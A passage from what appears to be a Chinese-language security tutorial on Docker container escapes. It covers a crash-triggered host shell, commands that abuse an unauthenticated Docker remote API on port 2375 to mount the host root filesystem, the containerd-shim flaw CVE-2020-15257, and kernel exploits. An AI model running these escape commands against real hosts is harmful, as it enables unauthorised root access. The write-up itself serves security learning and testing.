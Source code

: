 ```cpp
#include <stdio.h>
int main(void)
{
    int *a = NULL;
    *a = 1;
    return 0;
}
```
编译好了之后运行，攻击机成功接受到了宿主机的shell。
/var/lib/docker/overlay2/ff71d2bec74787dd9dad80bf545b9f32df06b380a307b0ab0585a8af9b435c8a/work
## 0x05 docker remote api未授权
参考:  
<https://security.tencent.com/index.php/blog/msg/174>  
docker api的默认端口是2375，如果存在未授权访问，我们就可以创建一个特权容器或者挂载目录等方式进行逃逸:  
```bash
#列出镜像
docker -H tcp://ip:2375 images

#把宿主机根目录挂载到容器中：
docker -H tcp://ip:2375 run -it -v /:/mnt/ ubuntu /bin/bash


#进入容器
docker -H tcp://ip:2375 exec -it CONTAINERID bash
```

## 0x06 CVE-2020-15257
简单来说，containerd-shim监听的Unix域套接字，它依靠网络命名空间做隔离，在host模式下，容器共享了主机的网络命名空间，并且容器默认都是root权限起的进程，
也就可以通过UnixSocketRequireSameUser的校验，这样下来，容器的进程就可以调用containerd-shim提供的各种API，实现逃逸。
利用工具：
<https://github.com/cdk-team/CDK/wiki/Exploit:-shim-pwn>

## 0x07 内核漏洞提权逃逸
容器共享宿主机内核，通过内核漏洞进入宿主机内核并更改当前容器的namespace。
脏牛，CVE-2020-14386

## 0x08 最后
感谢[lazydog](https://github.com/yeahx)师傅的指点

## 参考
- https://security.tencent.com/index.php/blog/msg/183
- https://docs.docker.com/engine/api/sdk/examples/
- https://github.com/neargle/cloud_native_security_test_case/blob/master/privileged/1-host-ps.sh
- https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f
- https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs-
- https://security.tencent.com/index.php/blog/msg/174
- https://www.kernel.org/doc/Documentation/cgroup-v1/devices.txt
- https://mp.weixin.qq.com/s/WmSaLPnG4o4Co1xRiYCOnQ
- https://github.com/cdk-team/CDK

